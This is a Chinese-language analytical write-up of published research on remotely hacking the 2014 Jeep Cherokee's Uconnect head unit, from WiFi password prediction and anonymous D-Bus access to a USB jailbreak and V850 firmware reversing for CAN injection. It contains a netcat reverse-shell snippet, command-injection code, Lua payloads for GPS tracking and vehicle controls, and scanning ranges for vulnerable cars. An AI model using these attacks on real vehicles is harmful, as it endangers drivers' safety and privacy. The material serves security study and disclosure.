pps_decoder_get_string(&decoder, "city", &city);

pps_decoder_push(&decoder, "position");
pps_decoder_get_double(&decoder, "latitude", &lat);
pps_decoder_get_double(&decoder, "longitude", &lon);
pps_decoder_pop(&decoder);

pps_decoder_pop(&decoder);

if ( pps_decoder_status(&decoder, false) == PPS_DECODER_OK ) {
 . . .
}
pps_decoder_cleanup(&decoder);
```

在一个台工作中的Uconnect 系统中可以看到下列信息：
```sh
# cat send

[n]@send
DR_MM_Lat::1528099482
DR_MM_Long::1073751823
GPS_Lat::1528099482
GPS_Long::1073751823
HU_CMP::0
NAVPrsnt::1
RADIO_W_GYRO::1
```

进一步分析，可以看到在一个名为 `can_c` 的子目录中有PPS文件，但是写这些文件不能产生 CAN 消息，这一点可以通过 CAN Sniffer 工具验证。换句话说，PPS并不发送CAN消息，但是揭示了一些通信方式信息。Miller 等人原本希望能够使用 PPS 文件发送篡改的 CAN 消息，但没有成功。Miller 认为这可能是因为他们没有正确理解和运用PPS。

QNX 中有一个负责产生 WiFi 随机密码的二进制文件"WifiSvc"，逆向该文件后能找到相关实现函数 `WiFi.E:generateRandomAsciiKey()`，其构成如下：

```c
int convert_byte_to_ascii_letter(signed int c_val)
{
  char v3; // r4@2
  if ( c_val > 9 )
  {
    if ( c_val > 35 )
      v3 = c_val + 61;
    else
      v3 = c_val + 55;
  }
  else
  {
    v3 = c_val + 48;
  }
  return v3;
}
char *get_password(){
  int c_max = 12;
  int c_min = 8;
  unsigned int t = time(NULL);
  srand (t);
  unsigned int len = (rand() % (c_max - c_min + 1)) + c_min;
  char *password = malloc(len);
  int v9 = 0;

  do{
    unsigned int v10 = rand();
    int v11 = convert_byte_to_ascii_letter(v10 % 62);
    password[v9] = v11;
    v9++;
  } while (len > v9);

  return password;
```

如果有C语言基础，应该可以看出上面的随机密码是在一个系统时间 t （单位为s）的基础上做了一些运算后得到的。如果 t 是随机性的，那么预测随机密码将成为难题。但是后来 Miller 等人发现这个 t 是车机头一次启动的时间，所以可以根据这个知识构造出一个密码列表（wordlist）来穷举WiFi热点的 WPA2 加密连接。攻击可以根据车的生产日期来猜测车机的第一次启动时间，进而构造这个 wordlist。如果我们可以正确估计一台车其车机第一次启动的月份，那么这个wordlist 会有 1千5百万个密码，而第一启动车机也通常不会在夜晚，所以可以去掉一半选项。此外，一些研究表明可以 133,000 次/秒的速度执行离线测试，这意味着2分钟内就可完成破解。

当车机第一次启动时，事实上需要首先接收来自GPS或蜂窝网络的授时信号才能确定系统时间，QNX 中的文件"clock.lua"负责设置系统时间，它的函数 start() 代码如下：

```lua
local rtcTime = getV850RealtimeClock()
local rtcValid = false

if rtcTime == nil or rtcTime.year == 65535 or rtcTime.month == 255 or rtcTime.day == 255 or rtcTime.hour == 255 or rtcTime.mi n == 255 or rtcTime.sec == 255 then
    dbg.print("Clock: start -- V850 time not received or is set to factory defaults")
...
if rtcValid == false then
  dbg.print("Clock: start -- Unable to create the UTC time from V850")
  setProperty("timeFormat24", false)
  setProperty("enableClock", true)
  setProperty("gpsTime", true)
  setProperty("manualUtcOffset", 0)
  defTime = {}
  defTime.year = 2013
  defTime.month = 1
  defTime.day = 1
  defTime.hour = 0
  defTime.min = 0
  defTime.sec = 0
  defTime.isdst = false
  setSystemUTCTime(os.time(defTime))
  timeFormatOverride = false
  enableClockOverride = false
end
```

这段代码时Lua语言描述的，如果车机不能得到时间，它将把系统时间设置为 00:00:00 Jan 1，2013 GMT。那么WiFi的随机密码会不会以此时间为时间变量 t的值呢？从 Miller 等人的观察来看，答案是否定的。经过分析，他们的随机密码为 "TtYMxfPhZxkp" 如果使用穷举分析可知对应的系统时间 t = 0x50e22720，即 00:00:32 Jan 1，2013 GMT。这意味着 WifiSvc 生成密码的时间比 clock.lua 的启动时间晚32秒。这仍然是一个大发现，将 wordlist 的长度缩短为几十个，爆破WiFi密码几乎会在瞬间完成。

对WiFi热点更为常见的访问方法是对默认网关进行端口扫描，检查是否有开放端口。2014款 Jeep Cheerokee 车机的开放端口不止一个：

```sh
$ netstat -n | grep LISTEN

tcp 0 0 *.6010 *.* LISTEN  # Wicome
tcp 0 0 *.2011 *.* LISTEN  # NATP
tcp 0 0 *.6020 *.* LISTEN  # SASService，实现语音API的服务端
tcp 0 0 *.2021 *.* LISTEN  # MonitorService 从runtime 提交 debug/trace 信息到文件或TCP/IP；通过TCP/IP，提供发送GCF消息给SCP系统
tcp 0 0 127.0.0.1.3128 *.* LISTEN # 3proxy 代理服务
tcp 0 0 *.51500 *.* LISTEN  # 3proxy admin web server
tcp 0 0 *.65200 *.* LISTEN  # dev-mv2trace
tcp 0 0 *.4400 *.* LISTEN  # HmiGateway
tcp 0 0 *.6667 *.* LISTEN  # D-Bus session bus
```

这些端口对应的服务大多是专用的，很可能存在漏洞，很有可能成为攻击入口。经 Miller 等人分析，最有价值的大致是 6667 端口。通常这个端口被 IRC 所保留。使用 telnet 连接到6667端口并敲几个回车，发现响应不对，这个服务不是IRC服务器，而是基于IP的D-Bus会话服务。它是一种进程间通信和进程间远程过程调用机制。

```sh
$ telnet 192.168.5.1 6667
Trying 192.168.5.1...
Connected to 192.168.5.1.
Escape character is '^]'.
a
ERROR "Unknown command"
```


D-Bus 会话服务的交互机制如下图所示：


对于D-Bus，总的来看仅有两条总线值得关注：系统总线和会话总线。系统总线负责D-Bus后台进程和系统服务注册；会话总线由用户应用保留（自定义）。D-Bus可能要求认证，在Jeep的车机里，认证向匿名活动开放，如下所示：

```sh
telnet 192.168.5.1 6667
Trying 192.168.5.1...
Connected to 192.168.5.1.
Escape character is '^]'.
AUTH ANONYMOUS
OK 4943a53752f52f82a9ea4e6e00000001
BEGIN
```

Miller 等人利用 Python D-Bus 库写了几个脚本与 D-Bus系统进行交互，但是最有价值的工具是 DFeet。下面的截图显示了使用DFeet查找 “com.harman.service.SoftwareUpdate” 服务。


DFeet 可以显示大量的服务信息（也被称为总线名），例如：
- com.alcas.xlet.manager.AMS
- com.harman.service.AppManager
- com.harman.service.AudioCtrlSvc

每个服务都有一个对象路径，例如：“com.harman.service.onOff” 有路径
“/com/harman/service/onOff”。 此外，每个服务有两个接口：“com.harman.Serviceipc“ 和 ”org.freedesktop.DBus.Introspectable” 。Serviceipc 接口仅有一个方法，它接收一个字符串参数并返回一个代表通用D-Bus接口的字符串。这些接口可以从DFeet进行调用，例如你可以点击 ‘com.harman.service.Control’，然后点击 ‘/com/harman/service/Control’ ，再点击 ‘Invoke’ under ‘Serviceipc’, 最终填入参数 “getServices”,执行得到下列内容：


检查和分类所有的 D-Bus服务和方法，可以发现几个直接与车机交互的服务，例如：
- 调节radio音量
- 访问 PPS 数据
- 其他低层级访问


2014款 Jeep Cherokee 中使用的 Harman Uconnect 系统有蜂窝通信（Cellular）功能，可以使用 Sprint's cellular 网络通信。这个系统也被称为车载信息系统（Telematics）。Telematics 是车载 WiFi、实时升级和许多其他远程连接的基础。在这里，实现蜂窝通信的是一块 Sierra Wireless AirPrime AR5550，如下图所示：


从标记上看，Sierra Wireless AirPrime AR5550 使用了 高通（Qualcomm）的 3G 基带芯片和 Sprint 载波。使用 Sierra Wireless Software Development Kit 可以开发和调试这个系统。


在对内通信方面，Harman Uconnect 系统所用的 TI OMAP-DM3730 不能与 CAN 总线直接通信，所以2014款 Jeep Cherokee 中使用另一块芯片 Renesas V850 FJ3 负责 CAN 总线接入和处理，如下图所示：



Renesas V850 FJ3 在2014年前后的美国车机市场上非常常见，它是一款低功耗、可用于持续监测CAN通信数据的芯片，必要时由 OMAP-DM3730 用高电压芯片唤醒。在 IDA Pro 中已经包含了 ARM 架构处理器特性，方便了对 V850 固件的逆向分析。

## 车机越狱（JailBreaking）

为了进一步弄清 UConnect 系统的内部结构并探索横向扩展的方法，需要对 UConnect 进行越狱。主要有两种方法：一种简单通用，另一种面向特定版本的OS。

方法一：（1）将含有有效升级ISO文件的 USB 设备插入 UConnect 系统的USB接口；（2）车机验证 USB 设备中升级镜像后，会提示准备开始升级；（3）在通过验证后且 UConnect 重启前，拔掉 USB 设备，UConnect 会放弃升级并重启进入正常模式（非升级），这时关闭电源，系统会并提示你“Please insert update USB”。（3）此时插入一个包含篡改后ISO文件的新 USB 设备，UConnect 表现出不再重新验证 ISO 的完整性，而是直接使用篡改后的ISO文件。可以通过这个办法修改 UConnect 的 root 默认密码等配置。

方法二：方法二面向 14-05-03 版本，这个版本中存在一个绕过ISO完整性验证过程的漏洞。验证过程文件为 "/usr/share/scripts/update/installer/system_module_check.lua" ，用Hex编辑器修改升级ISO文件中的某个字节即可使完整性校验失效。


如果希望在升级过程中运行一些代码，执行一些别的操作，可以修改 "system_module_check.lua" 文件。最有效的绕过某个步骤的方法就是修改 ISO 文件并检查是否绕过了完整性检查，如果确实绕过了那么就不必对完整升级过程进行分析，仅需要30分钟左右就可以使自己的代码生效。此外，可以通过修改 “cmds.sh” 使完整升级过程中止。经 Miller 等人的尝试，“升级模式”下仅部分文件和功能可挂载和使用，如网络连接等功能不能启用，但也证明了车机重启后所修改的内容可持续发生作用，为后续漏洞利用提供了方法和支撑。“正常模式”下，可以访问所有文件系统，包括网络连接，篡改植入的代码可以修改 “boot.sh" 文件，使篡改后代码可在“正常模式”下运行。通过篡改，可以达到执行任意代码的效果，例如把“修改root口令、开启/fs/mmc0/app/bin/sshd”等待执行代码写入USB设备中的“cmds.sh”, Uconnect若在启动时检测到它，就会加载执行。效果如下所示：

```sh
ssh root@192.168.5.1
******************************** CMC ********************************
Warning - You are knowingly accessing a secured system. That means
you are liable for any mischeif you do.
*********************************************************************
root@192.168.5.1's password:
```

通常，攻击者希望将文件传到 Uconnect 系统中，这可以使用 `mount -uw /fs/mmc0/` 命令，以读写方式挂载 mmc0 分区。


## 渗透 D-Bus 服务

D-Bus 系统可以匿名访问并且用于进程间通信，所以寻找其中漏洞并利用它是自然又重要的，这种弱防护的复杂服务最有可能含有代码注入、越权、信息泄露、内存冲突等风险。通过进一步分析，Miller 等人发现了一个重要的 D-Bus 服务 “NavTrailService”，它的代码实现在 “/service/platform/nav/navTrailService.lua” 中。这是一个Lua脚本，所以寻找命令注入类漏洞是首选，Miller 等人也确实发现了一些可疑点：

```lua
function methods.rmTrack(params, context)
 return {
  result = os.execute("rm \"" .. trail_path_saved .. params.filename .. "\"")
 }
end
```

这里的“rmTrack”方法存在一个命令注入漏洞，允许攻击者通过指定一个文件名，来调用D-Bus方法运行任意的shell命令。类似的情况还在其他函数中可以看到，特别是处理用户交互的一些功能中。但是，命令注入其实没有必要，因为 “NavTrailService” 服务提供了一个 “execute” 方法用来执行任意shell命令，这是系统预留的一个功能而不是漏洞，下面是“NavTrailService” 服务中所有可用的方法：

```
"com.harman.service.NavTrailService":
{"name":"com.harman.service.NavTrailService",
"methods":{"symlinkattributes":"symlinkattributes","getProperties":"getPr
operties","execute":"execute","unlock":"unlock","navExport":"navExport","ls":"ls","attributes":"attributes","lock":"lock","mvTrack":"mvTrack","getTracksFolder":"getTracksFolder","chdir":"chdir","rmdir":"rmdir","getAllProperties":"getAllProperties","touch":"touch","rm":"rm","dir":"dir","writeFiles":"writeFiles","setmode":"setmode","mkUserTracksFolder":"mkUserTracksFolder","navGetImportable":"navGetImportable","navGetUniqueFilename":"navGetUniqueFilename","mkd
ir":"mkdir","ls_userTracks":"ls_userTracks","currentdir":"currentdir","rmTrack":"rmTrack","cp":"cp","setProperties":"setProperties","verifyJSON":"verifyJS
ON"}},
```

可以看出，在车机上以 root 身份执行命令是比较容易的，特别是车机上默认安装了很多常见的通信工具，例如 netcat。下面4行Python代码是开启一个远程shell的示例：

```python
#!python
import dbus

bus_obj=dbus.bus.BusConnection("tcp:host=192.168.5.1,port=6667")
proxy_object=bus_obj.get_object('com.harman.service.NavTrailService','/com/harman/service/NavTrailService')
playerengine_iface=dbus.Interface(proxy_object,dbus_interface='com.harman.ServiceIpc')
print playerengine_iface.Invoke('execute','{"cmd":"netcat -l -p 6666 | /bin/sh | netcat 192.168.5.109 6666"}')
```

## Uconnect 攻击载荷

Miller 等人发现了在Uconnect中很多 LUA 脚本可用于影响车辆内部和通信功能，例如调高音量或阻止某个控制功能起作用。这些脚本提供了一个命令集，一旦攻击者可以远程接入系统，那么相关车辆功能都有可能受其影响。

车机有查询和获取GPS位置的功能，相关数据也可以通过未授权的 D-Bus 通信从端口6667得到。例如相关脚本如下：

```lua
service = require("service")
gps = "com.harman.service.NDR"
gpsMethod = "JSON_GetProperties"
gpsParams = {
 inprop = {
 "SEN_GPSInfo"
 }
}
response = service.invoke(gps, gpsMethod, gpsParams)
print(response.outprop.SEN_GPSInfo.latitude, response.outprop.SEN_GPSInfo.longitude) 
```

执行该脚本得到GPS信息：
```sh
$ lua getGPS.lua
40910512 -73184840
```

在某些地图软件，例如 Google Map中输入这个数值 40.910512 -73.184840，可以发现目标车辆的位置为 Long Island。

车机还可以控制车辆供暖和空调，下面代码是设置风扇为任意速度的示例：

```lua
require "service"
params = {}
control = {}
params.zone = "front"
control.fan = arg[1]
params.controls = control
x=service.invoke("com.harman.service.HVAC", "setControlProperties", params)
```

车机还有一大功能是控制Radio，这一点也是可以远程实现控制的。例如攻击者知道某首歌曲正在播放，他可以使用下列脚本突然调高音量：

```lua
require "service"
params = {}
params.volume = tonumber(arg[1])
x=service.invoke("com.harman.service.AudioSettings", "setVolume", params)
```

还可以通过脚本设定FM电台：
```lua
require "service"
Tuner = "com.harman.service.Tuner"
service.invoke(Tuner, "setFrequency", {frequency = 94700})
```
或是通过脚本改变当前车机屏幕的显示：
```lua
require "service"
x=service.invoke("com.harman.service.LayerManager", "viewBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "stopBlackScreen", {})
x=service.invoke("com.harman.service.LayerManager", "viewCameraInput", {})
x=service.invoke("com.harman.service.LayerManager", "stopViewInput", {})
x=service.invoke("com.harman.service.LayerManager", "showSplash", {timeout =2})
```

或是改变屏幕显示的图片，图片格式应为png格式：
```sh
mount -uw /fs/mmc0/
cp pic.png /fs/mmc0/app/share/splash/Jeep.png
pidin arg | grep splash
kill <PID>
splash -c /etc/splash.conf &
```

通过关闭“service.lua” 进程，可以使车机上的物理按钮失效：
`kill this process: lua -s -b -d /usr/bin service.lua`


### 蜂窝通信模块渗透

上面分析了如何利用USB进行越狱和如何利用D-Bus服务及其漏洞等两种方法实现任意代码执行，但仍然停留在物理接触车辆的攻击场景内，没有实现远程代码执行（RCE）。虽然接入 WiFi 热点并实现对车辆渗透是令人兴奋的，这也说明了可以远程实现命令执行，但很多人不会每月付费 $34.99 来开启车内WiFi模块且 WiFi 通信距离在百米之内，远程执行的限制较大。为了能够真正实现远程渗透攻击，Miller 等人研究了更为实际的蜂窝通信模块。在 Uconnect 系统中查看网络配置：


```sh
$ ifconfig
lo0: flags=8049<UP,LOOPBACK,RUNNING,MULTICAST> mtu 33192
 inet 127.0.0.1 netmask 0xff000000
pflog0: flags=100<PROMISC> mtu 33192
uap0: flags=8843<UP,BROADCAST,RUNNING,SIMPLEX,MULTICAST> mtu 1500
 address: 30:14:4a:ee:a6:f8
 media: <unknown type> autoselect
 inet 192.168.5.1 netmask 0xffffff00 broadcast 192.168.5.255
ppp0: flags=8051<UP,POINTOPOINT,RUNNING,MULTICAST> mtu 1472
 inet 21.28.103.144 -> 68.28.89.85 netmask 0xff000000
```

地址 192.168.5.1 是 Uconnect 系统的WiFi网络地址；地址 68.28.89.85 是一个互联网地址，但端口 6667 并不是在这个地址上开放的；地址 21.28.103.144 是 Uconnect 连接互联网的真实地址，但是仅能被 Sprint 网络内部访问。经过试验，发现 PPP 接口的IP地址会在车辆每次重启时改变，但地址空间总在两个A类地址块内：21.0.0.0/8 或 25.0.0.0/8，这应当是 Sprint 网络分配给车辆的IP地址段。这里特别重要的是找到绑定内部网络端口 6667 的方法，下面的输出是执行 `netstat` 命令的结果：

```sh
$ netstat

Active Internet connections
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 144-103-28-21.po.65531 68.28.12.24.8443 SYN_SENT
tcp 0 27 144-103-28-21.po.65532 68.28.12.24.8443 LAST_ACK
tcp 0 0 *.6010 *.* LISTEN
tcp 0 0 *.2011 *.* LISTEN
tcp 0 0 *.6020 *.* LISTEN
tcp 0 0 *.2021 *.* LISTEN
tcp 0 0 localhost.3128 *.* LISTEN
tcp 0 0 *.51500 *.* LISTEN
tcp 0 0 *.65200 *.* LISTEN
tcp 0 0 localhost.4400 localhost.65533
ESTABLISHED
tcp 0 0 localhost.65533 localhost.4400
ESTABLISHED
tcp 0 0 *.4400 *.* LISTEN
tcp 0 0 *.irc *.* LISTEN
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.* *.*
udp 0 0 *.bootp *.*
```

上面例子中，端口 6667 被标记为知名服务 IRC，且被绑定到所有网络接口。因此 D-Bus 通信可以经蜂窝网在 Jeep 上执行。Miller 等人尝试了使用一款 Sprint Airave 2.0型号的 femtocell（小基站）设备迫使 Jeep 连接到他们自建的蜂窝网络。这款设备有公开的渗透脚本，可以打开 Telnet 和 Https。通过使用这个渗透脚本，Airave 设备可以通过 Telnet 访问。令人兴奋的是，可以通过蜂窝网络 Ping 到 Jeep 车并访问 D-Bus 服务。这意味着可以使用相同的渗透脚本实现很大范围的攻击。

在尝试使用自己基站证明能够通过蜂窝通信实现攻击后，还需要验证公共的 Sprint 通信基站是否可以实现攻击。首先通过一台 Sprint 低端手机（Sprint burner phone）可以与其他 Sprint 设备、Jeep 车等等进行通信。这使攻击的范围大幅扩大。更令人吃惊的是，蜂窝通信连接不限于某单个基站或蜂窝片区，美国国内的任何 Sprint 设备都可以与其他 Sprint 设备进行ping 或 telnet 访问。例如，下面是从 Pttsburgh 访问 St. Louis Jeep 车的例子：
```
$ telnet 21.28.103.144 6667
Trying 21.28.103.144...
Connected to 21.28.103.144.
Escape character is '^]'.
a
ERROR "Unknown command"
```

注意：联网主机需要连接到 Sprint 网络上，例如通过 Sprint 移动电话或某个 Uconnect WiFi 热点，而不是互联网上的任意主机。

### 扫描有漏洞的车辆

为了发现更多存在漏洞的车辆，可以通过扫描IP地址 21.0.0.0/8 和 25.0.0.0/8 区间的 Sprint 设备是否开放了 6667端口，凡是有响应的都可认为是存在漏洞的 Uconnect 系统或 IRC 服务器。下面列出了 Miller 等人发现有响应（极有可能存在漏洞）的车型：

2013 DODGE VIPER
2013 RAM 1500
2013 RAM 2500
2013 RAM 3500
2013 RAM CHASSIS 5500
2014 DODGE DURANGO
2014 DODGE VIPER
2014 JEEP CHEROKEE
2014 JEEP GRAND CHEROKEE
2014 RAM 1500
2014 RAM 2500
2014 RAM 3500
2014 RAM CHASSIS 5500
2015 CHRYSLER 200
2015 JEEP CHEROKEE
2015 JEEP GRAND CHEROKEE

由于一台车可以扫描其他有漏洞的车辆，并且渗透过程不要去用户交互，所以这个代码可以写成一个蠕虫。它将不断扫描漏洞车辆，渗透他们后再进行扫描...。

### V850

在实现远程命令执行后，还不能进行远程控车。这需要借助CAN总线发送控车消息。之前提到 Uconnect OMAP 芯片是借助 Renesas V850ES/FJE芯片连接和使用两种CAN总线的，所以下一步就是探索如何利用 V850 了。

分析车机系统中的文件，发现 V850 和 CAN 通信被引用为 “IOC” ，而且可以在程序中发现 IOC 是可以被车机主控 OMAP 芯片升级的，升级包需要放在 USB 介质中。研究 IOC 如何被升级、如何使用篡改后的固件刷写 IOC 就成为下一步横向扩展的关键。 

这里的 IOC 可能处于三种状态：一是 application mode，作为常态模式其 bootloader 和固件是完整的且可运行应用代码；二是 bootloader mode，这个模式用于更新 IOC 上的应用固件；三是 bootloader updater mode，用于加载固件到 RAM 并可被更新。

再次分析升级ISO镜像中的“manifest.lua”，可以发现有一个用于升级IOC应用固件的单个文件，名为“cmcioc.bin"。这个二进制文件实际上是完整的 V850 固件。此外，在“manifest.lua”还可以看到其他几个有关升级 IOC 或其 bootloader 的文件，如下所示：

```lua
ioc = 
{
  name = "ioc installer.",
  installer = "ioc",
  data = "cmcioc.bin",
}

ioc_bootloader = 
{
  name = "IOC-BOOTLOADER",
  iocmode = "no_check",
  installer = "ioc_bootloader",
  dev_ipc_script = "usr/share/scripts/dev-ipc.sh",
  bootloaderUpdater = "usr/share/V850/cmciocblu.bin",
  bootloader = "usr/share/V850/cmciocbl.bin",
  manifest_file = "usr/share/V850/manifest.xml"
},

ioc = 
{
  name = "IOC",
  installer = "ioc",
  dev_ipc_script = "usr/share/scripts/dev-ipc.sh",
  data = "usr/share/V850/cmcioc.bin"
},
```

从数量上看，相关 IOC 升级的文件不多，比较重要的是应用固件代码，研究这些代码有助于实现 CAN 消息发送和接收。下面的例子用于枚举 "usr/share/V850/" 中的内容：

```sh
$ ls -l usr/share/V850/
total 1924
-r-xr-xr-x 1 charlesm staff 458752 Jan 30 2014 cmcioc.bin
-r-xr-xr-x 1 charlesm staff 65536 Jan 30 2014 cmciocbl.bin
-r-xr-xr-x 1 charlesm staff 458752 Jan 30 2014 cmciocblu.bin
-r-xr-xr-x 1 charlesm staff 604 Jan 30 2014 manifest.xml
```

逆向分析这些文件是为了找到一个确切地能修改 V850 固件的方法，实现希望的横向移动（从 D-Bus 服务利用到ECUs控制）。经过分析，IOC 应用代码是使用 “iocupdate” 命令从 Uconnect 系统推送到 V850 的，这一点可以在 “ioc.lua" 脚本中发现调用命令的语句：

`iocupdate -c 4 -p usr/share/V850/cmcioc.bin`

命令 “iocupdate” 给出的帮助信息也证实了之前的分析：

```
$ iocupdate
%C: a utility to send a binary file from the host processor to the IOC
[options] <binary file name>
Options:
-c <n> Channel number of IPC to send file over (default is /dev/ipc/ch4)
-p Show progress
-r Reset when done
-s Simulate update
Examples:
/bin/someFile.bin (will default to using /dev/ipc/ch4)
-c7 -r /bin/someFile.bin (will reset when done)
-sp (simulate update with progress notification)
```

既然 `iocupdate` 可以把升级文件传给 V850，那么如何对一个 IOC 应用固件加入接收命令和发送 CAN 消息的代码呢？这需要对 IOC 应用固件进行逆向。很幸运的是，IOC固件重刷没有加密签名验证固件合法性。逆向过程使用 IDA Pro 较为方便，因为已经集成了 V850芯片的支持包。


使用 IDA Pro 加载 “cmcioc.bin” ，第一条指令为 `ROM:00010000  jr loc_77952`, 熟悉逆向的朋友可能会觉得第一行就跳转很奇怪，但分析可知第一行指令是跳转到 setup 代码，初始化所需数据。为了能够准确全面的加载镜像，需要核对 IDA 默认的 ROM 起始地址是否与指令序列中引用的起始地址一致，否则不能完整加载镜像。逆向分析过程花费了 Miller 等人几周时间，特别是为了发现使用无线接口发送任意 CAN 消息的机制。具体过程如下：
- 首先通过查找代码、修复 IDA Pro没发现的分区、识别函数、确保所有函数的调用和交叉引用正确，确保IDB（IDA Pro 程序分析数据库）正确可用。如果执行正确，会看到IDB中 IDA Pro ROM Section 的 Regular Function 占据了大部分比例（大于4/5），而 Unexplored 函数、数据及其他占少部分。
- IDB 调整正常后，分析 V850/Fx3 处理器的 DataSheet，找出内存段（Segments）、寻址（addressing）、寄存器（registers）和其他可用于逆向分析的重要信息。
- 找出 V850 的地址空间和对应固件是第一要务，通常在获得和分析相关文档后会容易一些，代码、外设、RAM会被放在不同的段（segments）。



- 然后在IDB中生成一个与下图近似的分段，反映出 V850 处理器的地址空间布局，用于运行相应的固件。根据分析可知，ROM Segment 起始于 0x10000，截止到 0x70000，包含了为实现攻击的代码。V850 有32KB的RAM，映射地址为 0x3FF7000～0x3FFEFFF。RAM区保存着变量和许多交叉引用（对 IDB）。还有一个特殊功能寄存器段 SFR segment，它是内存映射寄存器，用于各种用途。
- 还有一点很重要，有12KB可编程外设 I/O 区 PPA，它包含了 CAN 模块、相关寄存器、对应消息缓冲区等。这个 PPA 区域的基址由外设区域选择控制寄存器 BPC 指定。通常，V850类似的微处理器，PPA的基址为 0x3FEC000。

下图显示了 IDB 中所有的分段：


之前提到 V850 使用 GP 相对寻址来访问RAM中的变量，可以使用相对于GP的负偏移寻址指令，GP 反过来会变为一个虚地址。例如：将 -0x2DAC 存放到 GP，GP 值会 0x3FFF10C - 0x2DAC，给出地址 0x3FFC360。

Miller 等人编写了一个脚本来迭代 IDB 中所有的函数并是用 GP 相对寻址来生成某些指令的交叉引用：

```python

def do_one_function(fun):
    for ea in FuncItems(fun):
        mnu = idc.GetMnem(ea)
        # handle mova, -XXX, gp, REG
        if idc.GetOpnd(ea,1) == 'gp' and idc.GetOpType(ea,0) == 5:
            opnd0 = idc.GetOpnd(ea,0)
            if "unk" in opnd0:
                continue
            if("(" not in opnd0):
                data_ref = gp + int(idc.GetOpnd(ea,0), 0)
                print "MOV: Add xref from %x -> %x" % (ea, data_ref)
                idc.add_dref(ea, data_ref, 3)
        # handle st.h REG, -XXX[gp]
        op2 = idc.GetOpnd(ea,1)
        if 'st' in mnu and idc.GetOpType(ea,0) == 1 and 'gp' in op2 and "(" not in idc.GetOpnd(ea,1):
            if "CB2CTL" in op2:
                continue

            end = op2.find('[')
            if end > 0:
                offset = int(op2[:end], 0)
                print "ST: Add xref from %x -> %x" % (ea, gp + offset)
                idc.add_dref(ea, gp + offset, 2)
      # handle ld.b -XXX[gp], REG
      op1 = idc.GetOpnd(ea,0)
      if 'ld' in mnu and 'gp' in op1 and idc.GetOpType(ea,1) == 1 and "(" not in idc.GetOpnd(ea,0):
          if "unk" in op1:
              continue

          end = op1.find('[')
          if end > 0:
              offset = int(op1[:end], 0)
              print "LD: Add xref from %x -> %x" % (ea, gp + offset)
              idc.add_dref(ea, gp + offset, 3)
```

这些指令和交叉引用提供了变量被何处引用以及跟踪回看等功能。这有助于我们理解数据或代码的用途。

经过前述步骤处理，代码比较规整且有了RAM中变量的交叉引用。下面考虑分析负责 CAN 交互的PPA段。可以假设任何处理CAN的代码，例如读取CAN总线消息、向CAN消息队列写消息都会引用PPA段内存地址。V850 可能在每个包里含有4个CAN模块，但是 Miller 等人发现在固件里仅有2个被使用。Renesas 官方对V850芯片文档介绍了CAN模块所使用的寄存器和消息缓冲区，这些寄存器和消息缓冲区都是基于PBA（ CAN0 register base address）这个基址的偏移。在 Miller 的报告中，PBA = 0x3FEC000（这个地址也是瑞萨官方文档中所列的值）。利用这些 Base 和 Offset 信息，就可以查看所有用于CAN交互的寄存器和消息缓冲区，还可以在IDB中对Base和Offset命名，方便进行交叉引用查看。下面的脚本是参考 Renesas V850ES/FX3 文档中的寄存器名称，为IDB相应偏移位置命名（以便后续分析 PPA 段）的 Python 脚本示例：

```py
# create_segs_and_regs.py
PBA = 0x3FEC000

def create_can(OFFSET,mark):
    can_interface = 0
    for i in range(0,4):
        ea = OFFSET + (can_interface * 0x600)
        msg_buffer = ea + 0x100
        curr_can = "C" + str(can_interface)

        # Global Control Register
        MakeWord(ea)
        MakeName(ea,curr_can+"GMCTRL"+mark)
        MakeVar(ea)
        ea += 0x2

        #Global clock selection register
        Makeword(ea)
        MakeName(ea,curr_can+"GMCS"+mark)
        MakeVar(ea)
        ea += 0x4

        #Global automatic block transmission register
        Makeword(ea)
        MakeName(ea,curr_can+"GMCABT"+mark)
        MakeVar(ea)
        ea += 0x2

        MakeArray(ea,0x38)
        MakeName(ea,curr_can+"GMABTD"+mark)
        MakeVar(ea)
        ea += 0x38

        MakeWord(ea)
        MakeName(ea,curr_can + "MASK1L"+mark)
        MakeVar(ea)
        ea += 0x2

        MakeWord(ea)
        MakeName(ea,curr_can + "MASK1H"+mark)
        MakeVar(ea)
        ea += 0x2
```

通过这段脚本，可以将V850手册中的命名批量应用于IDB中，方便我们查看和理解程序（逆向过程中最为耗时的部分）。例如，下面图示了CAN-0模块的第2和第3个 CAN 消息缓冲区：


在 IDB 中有了RAM中变量的交叉引用之后，一个 PPA 段就可以根据设定的 CAN 控制寄存器和消息缓冲区名称进行识别和分析，并且 ROM 的代码段也完全规整好了。但是，到目前为止，仍然无法查看 ROM 中代码段对 PPA 段的引用（也就是无法找到CAN消息传递的有关函数或代码）。Miller 等人决定下载 IAR workbench ，这个工具常用于汽车相关的代码编译，也适用于 V850。IAR 中有一些针对V850处理器的示例代码，其中也包括一些收发 CAN 消息的。


上面图片中可以看到 CTL 寄存器被设置为 0x200，表明一个事件将要发生并且在删除 Uconnect 固件后，发现一个执行相同操作的位置。之后完全逆向该函数（称其为 “can_transmit_msg”），原以为这个函数会使分析更加清晰，但是这个函数并不直接访问 PPA，而是访问了ROM中的变量，指向了相关的CAN Segment。这意味着有一个 CAN 模块的数组，访问相关函数前需要指明其索引 index。参考 IAR workbench 中的例子，我们现在有了完成 CAN 总线交互的函数的相关引用（地址）了。


与CAM 通信相关的变量存放在ROM中，而用于CAN的消息缓冲区和控制寄存器存放在RAM中。基本上，由于较短事件周期后，数据需要被重写，所以PPA中的数据与RAM之间反复拷贝。例如，下图示例了逆向分析这段函数（称之为 “can_write_to_ram”），它从 PPA 中拷贝数据到 RAM，并从 RAM 中读取数据到 PPA。



在RAM中，还有几个别的重要的区域用于存放 CAN IDs、CAN 数据长度和 CAN 消息数据，有一个指向存储在RAM中的变量的指针数组，它是发送CAN消息的组成部分。



跟踪 CAN 寄存器、消息缓冲区、RAM 值的过程，使 Miller 等人完全逆向分析了多个用于收发 CAN 消息的函数。最有价值的是一个命名为 “can_transmit_msg_1_or_3” 的函数，它使用一个索引值在 CAN IDs数组中取出所需的 ID，以及指向数据长度和 CAN 消息数据的指针。通过将数据填充到RAM中特定位置，我们以利用这段固件代码发送任意的 CAN 消息、控制 CAN消息的ID、长度和数据。



